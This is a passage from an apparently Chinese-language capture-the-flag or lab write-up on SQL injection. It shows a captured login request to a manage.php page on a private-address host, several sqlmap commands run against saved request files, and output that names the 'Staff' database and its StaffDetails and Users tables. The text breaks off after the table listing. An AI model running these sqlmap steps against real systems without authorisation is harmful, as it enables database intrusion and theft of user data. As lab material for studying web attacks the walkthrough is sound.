 保存为 `1.txt`，登录那个界面保存为 `2.txt`，分别测一下：

```bash
POST /manage.php HTTP/1.1
Host: 10.160.58.244
Content-Length: 32
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.160.58.244
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.160.58.244/manage.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=dg3l2p0bbh8od1harqv0an2ter
Connection: close

username=admin&password=password
```

```bash
sqlmap -r 1.txt
```

查到俩：

![image-20240321184949089](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403212116478.png)

```bash
sqlmap -r 2.txt
```

![image-20240321185058115](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403212116480.png)

好家伙登录倒是没有跑到漏洞。

尝试登录进去看看：

```bash
sqlmap -r 1.txt --current-db
```

```sql
[07:00:43] [INFO] fetching current database
current database: 'Staff'
```

```bash
sqlmap -r 1.txt --tables -D "Staff"
```

```sql
Database: Staff
[2 tables]
+--------------+
| StaffDetails |
| Users        |
+--------------+
```
